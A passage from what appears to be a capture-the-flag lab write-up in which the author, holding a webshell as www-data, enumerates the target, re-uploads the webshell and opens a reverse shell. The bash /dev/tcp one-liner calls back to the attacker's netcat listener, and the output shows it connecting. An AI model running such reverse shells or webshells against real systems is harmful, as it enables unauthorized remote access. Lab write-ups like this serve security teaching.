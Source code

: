 ```bash
www-data@webserver:…/html/uploads# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:15:5d:00:8a:02 brd ff:ff:ff:ff:ff:ff
    inet 192.168.5.2/24 brd 192.168.5.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::215:5dff:fe00:8a02/64 scope link 
       valid_lft forever preferred_lft forever
```

```bash
www-data@webserver:…/html/uploads# grep "sh$" /etc/passwd
root:x:0:0:root:/root:/bin/bash
drwilliams:x:1000:1000:Lucy Williams:/home/drwilliams:/bin/bash
```

```bash
www-data@webserver:…/html/uploads# ls -lha /home/drwilliams
ls: cannot open directory '/home/drwilliams': Permission denied
```

At this point I lost connection and I noted that the shell file was not present any more on the target. I believe the machine has a process to remove the bad files or something like that.

I uploaded again the webshell and started a reverse shell to don't get kicked out again.

```bash
$ rlwrap -cAr nc -nlvp 9001
listening on [any] 9001 ...
```

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.8/9001 0>&1'
```

```bash
$ rlwrap -cAr nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.241] 6578
bash: cannot set terminal process group (979): Inappropriate ioctl for device
bash: no job control in this shell
www-data@webserver:/var/www/html/uploads$ 
```

```bash
www-data@webserver:/var/www/html/uploads$ ls ../
ls ../
config.php  fonts      js          register.php  uploads
css         images     login.php   success.php   vendor
failed.php  index.php  logout.php  upload.php
```
